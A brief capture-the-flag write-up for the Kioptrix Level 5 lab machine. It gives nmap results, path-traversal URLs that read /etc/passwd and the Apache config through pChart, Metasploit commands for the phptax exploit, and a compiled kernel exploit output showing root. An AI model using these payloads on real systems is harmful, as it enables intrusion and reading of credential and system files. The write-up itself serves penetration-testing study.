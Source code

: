 <h1>Kioptrix: Level 5 Write-up</h1>

<h2>NMAP</h2>

```
PORT     STATE  SERVICE VERSION  
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)  
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

</h3>PORT 80 :</h3>

Found **/pChart2.1.3/index.php** in source code. 

After searching for the tool’s name on searchsploit, it showed that it’s vulnerable to LFI.

```
http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd  
```

Checking For Config File's :

```
http://192.168.1.68/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf  
```

After reading carefully i found i have to access port 8080 with different **user-agent** :

```
curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080
curl -H "User-Agent:Mozilla/4.0" http://192.168.1.68:8080/phptax/
```

Exploiting phptax (METASPLOIT):

```
use exploit/multi/http/phptax_exec
set RHOST 192.168.1.68
set RPORT 8080
run
```

<h2>Privilege Escalation</h2>

Exploit : https://www.exploit-db.com/exploits/28718

```
gcc exploit.c  
  
./a.out  
[+] SYSRET FUCKUP!!  
[+] Start Engine...  
[+] Crotz...  
[+] Crotz...  
[+] Crotz...  
[+] Woohoo!!!  
whoami  
root  
```
